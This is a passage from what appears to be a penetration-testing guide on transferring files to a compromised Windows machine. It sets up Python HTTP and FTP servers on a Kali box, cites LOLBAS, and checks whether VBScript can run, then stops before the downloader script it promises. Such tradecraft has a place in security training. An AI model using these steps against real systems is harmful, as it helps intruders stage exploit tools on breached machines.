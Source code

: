 _NOTE_ There are MANY more ways to move files back and forth between a Windows machine, most can be found on the LOLBAS project: <https://lolbas-project.github.io/>

Most of these will require that we create a simple local webserver on our Kali box to sevre the files (NOTE: I have had issues running this command within TMUX for whatever reason... so dont run it in TMUX). I like to use the Python Simple HTTP Server:

```
root@kali:~/Documents/Exploits/WindowsPRIVZ# python -m SimpleHTTPServer 80
```

Or the Python pyftpdlib FTP Server (again don't run from TMUX):

```
apt-get install python-pyftpdlib
root@kali:~/Documents/Exploits/WindowsPRIVZ# python -m pyftpdlib -p 21
```

### Uploading Files with VBScript

In my experiance, VBScript is one of the easiest methods of transfering files to a remote Windows. The only downside is that the file size you can transfer is rather limited. I often have trouble transfering anything over 1 MB using this method and have to fall back on other methods (Windows-privesc-check2.exe is much too large to transfer using this method).<br>
First lets test to see if we can run VBScript

```
echo WScript.StdOut.WriteLine "Yes we can run vbscript!" > testvb.vbs
```

Now we run it to see the results:

```
cscript testvb.vbs
```

If you see the following message, we are good to go with VBScript!:

```
C:\Users\Test>cscript testvb.vbs
Microsoft (R) Windows Script Host Version 5.812
Copyright (C) Microsoft Corporation. All rights reserved.

Yes we can run vbscript!
```

If you see the following messages, you should move on to PowerShell:

```
C:\temp>cscript testvb.vbs
This program is blocked by group policy. For more information, contact your system administrator.
C:\temp>testvb.vbs
Access is denied.
```

Now we can create a very simple downloader script by copying and pasting this single line of code into your windows commandline. I have tried to create a VBS script to download files from a remote webserver with the least possible number of lines of VBS code and I believe this is it. If Windows is an older version of windows (Windows 8 or Server 2012 and below) use the following script:
